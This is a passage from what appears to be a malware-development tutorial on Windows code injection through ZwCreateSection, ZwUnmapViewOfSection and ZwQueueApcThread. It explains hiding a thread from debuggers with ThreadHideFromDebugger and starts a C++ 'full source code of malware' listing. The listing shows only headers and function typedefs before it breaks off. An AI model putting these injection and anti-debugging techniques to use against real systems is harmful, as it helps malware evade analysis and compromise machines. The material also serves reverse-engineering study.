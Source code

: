As you can see, I replaced payload launching logic.    

There is one interesting point with `ZwSetInformationThread`. The second parameter of this function is the `THREADINFOCLASS` structure, which is an enumerated type. The last label field is `ThreadHideFromDebugger`. By setting `ThreadHideFromDebugger` for the thread, you can prohibit a thread from generating debugging events. This was one of the first anti-debugging techniques provided by Windows in Microsoft's search for how to prevent reverse engineering, and it's very powerful.    

Full source code of malware:    

```cpp
/*
 * hack.cpp - code injection via 
 * ZwCreateSection, ZwUnmapViewOfSection, 
 * ZwQueueApcThread
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/
 2022/01/17/malware-injection-14.html
*/
#include <cstdio>
#include <windows.h>
#include <winternl.h>

#pragma comment(lib, "ntdll")

// ZwCreateSection
typedef NTSTATUS(NTAPI* pZwCreateSection)(
  OUT PHANDLE            SectionHandle,
  IN ULONG               DesiredAccess,
  IN POBJECT_ATTRIBUTES  ObjectAttributes OPTIONAL,
  IN PLARGE_INTEGER      MaximumSize OPTIONAL,
  IN ULONG               PageAttributess,
  IN ULONG               SectionAttributes,
  IN HANDLE              FileHandle OPTIONAL
);

// NtMapViewOfSection syntax
typedef NTSTATUS(NTAPI* pNtMapViewOfSection)(
  HANDLE            SectionHandle,
  HANDLE            ProcessHandle,
  PVOID*            BaseAddress,
  ULONG_PTR         ZeroBits,
  SIZE_T            CommitSize,
  PLARGE_INTEGER    SectionOffset,
  PSIZE_T           ViewSize,
  DWORD             InheritDisposition,
  ULONG             AllocationType,
  ULONG             Win32Protect
);

// ZwUnmapViewOfSection syntax
typedef NTSTATUS(NTAPI* pZwUnmapViewOfSection)(
  HANDLE            ProcessHandle,
  PVOID             BaseAddress
);

// ZwClose
typedef NTSTATUS(NTAPI* pZwClose)(
  _In_ HANDLE       Handle
);

// ZwQueueApcThread
typedef NTSTATUS(NTAPI* pZwQueueApcThread)(
  IN HANDLE               ThreadHandle,
  IN PIO_APC_ROUTINE      ApcRoutine,
```